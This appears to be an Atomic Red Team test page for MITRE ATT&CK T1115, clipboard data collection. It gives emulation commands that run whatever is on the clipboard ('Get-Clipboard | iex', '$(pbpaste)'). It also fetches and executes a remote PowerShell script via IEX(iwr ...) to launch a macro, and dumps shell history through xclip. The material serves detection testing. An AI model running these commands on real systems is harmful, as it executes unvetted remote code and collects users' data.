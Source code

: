 # T1115 - Clipboard Data

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1115)

<blockquote>Adversaries may collect data stored in the clipboard from users copying information within or between applications.

For example, on Windows adversaries can access clipboard data by using <code>clip.exe</code> or <code>Get-Clipboard</code>.(Citation: MSDN Clipboard)(Citation: clip_win_server)(Citation: CISA_AA21_200B) Additionally, adversaries may monitor then replace users’ clipboard with their data (e.g., [Transmitted Data Manipulation](https://attack.mitre.org/techniques/T1565/002)).(Citation: mining_ruby_reversinglabs)

macOS and Linux also have commands, such as <code>pbpaste</code>, to grab clipboard contents.(Citation: Operating with EmPyre)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Utilize Clipboard to store or execute commands from](#atomic-test-1---utilize-clipboard-to-store-or-execute-commands-from)

- [Atomic Test #2 - Execute Commands from Clipboard using PowerShell](#atomic-test-2---execute-commands-from-clipboard-using-powershell)

- [Atomic Test #3 - Execute commands from clipboard](#atomic-test-3---execute-commands-from-clipboard)

- [Atomic Test #4 - Collect Clipboard Data via VBA](#atomic-test-4---collect-clipboard-data-via-vba)

- [Atomic Test #5 - Add or copy content to clipboard with xClip](#atomic-test-5---add-or-copy-content-to-clipboard-with-xclip)

<br/>

## Atomic Test #1 - Utilize Clipboard to store or execute commands from

Add data to clipboard to copy off or execute commands from.

**Supported Platforms:** Windows

**auto_generated_guid:** 0cd14633-58d4-4422-9ede-daa2c9474ae7

#### Attack Commands: Run with `command_prompt`!

```cmd
dir | clip
echo "T1115" > %temp%\T1115.txt
clip < %temp%\T1115.txt
```

#### Cleanup Commands:

```cmd
del %temp%\T1115.txt >nul 2>&1
```

<br/>
<br/>

## Atomic Test #2 - Execute Commands from Clipboard using PowerShell

Utilize PowerShell to echo a command to clipboard and execute it

**Supported Platforms:** Windows

**auto_generated_guid:** d6dc21af-bec9-4152-be86-326b6babd416

#### Attack Commands: Run with `powershell`!

```powershell
echo Get-Process | clip
Get-Clipboard | iex
```

<br/>
<br/>

## Atomic Test #3 - Execute commands from clipboard

Echo a command to clipboard and execute it

**Supported Platforms:** macOS

**auto_generated_guid:** 1ac2247f-65f8-4051-b51f-b0ccdfaaa5ff

#### Attack Commands: Run with `bash`!

```bash
echo ifconfig | pbcopy
$(pbpaste)
```

<br/>
<br/>

## Atomic Test #4 - Collect Clipboard Data via VBA

This module copies the data stored in the user's clipboard and writes it to a file, $env:TEMP\atomic_T1115_clipboard_data.txt

**Supported Platforms:** Windows

**auto_generated_guid:** 9c8d5a72-9c98-48d3-b9bf-da2cc43bdf52

#### Inputs:

| Name       | Description             | Type   | Default Value |
| ---------- | ----------------------- | ------ | ------------- |
| ms_product | Maldoc application Word | string | Word          |

#### Attack Commands: Run with `powershell`!

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Set-Clipboard -value "Atomic T1115 Test, grab data from clipboard via VBA"
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1115\src\T1115-macrocode.txt" -officeProduct "Word" -sub "GetClipboard"
```

#### Cleanup Commands:

```powershell
Remove-Item "$env:TEMP\atomic_T1115_clipboard_data.txt" -ErrorAction Ignore
```

#### Dependencies: Run with `powershell`!

##### Description: Microsoft #{ms_product} must be installed

##### Check Prereq Commands:

```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```

##### Get Prereq Commands:

```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```

<br/>
<br/>

## Atomic Test #5 - Add or copy content to clipboard with xClip

Utilize Linux Xclip to copy history and place in clipboard then output to a history.txt file. Successful execution will capture history and output to a file on disk.

**Supported Platforms:** Linux

**auto_generated_guid:** ee363e53-b083-4230-aff3-f8d955f2d5bb

#### Attack Commands: Run with `sh`!

```sh
apt install xclip -y
history | tail -n 30 | xclip -sel clip
xclip -o > history.txt
```

<br/>
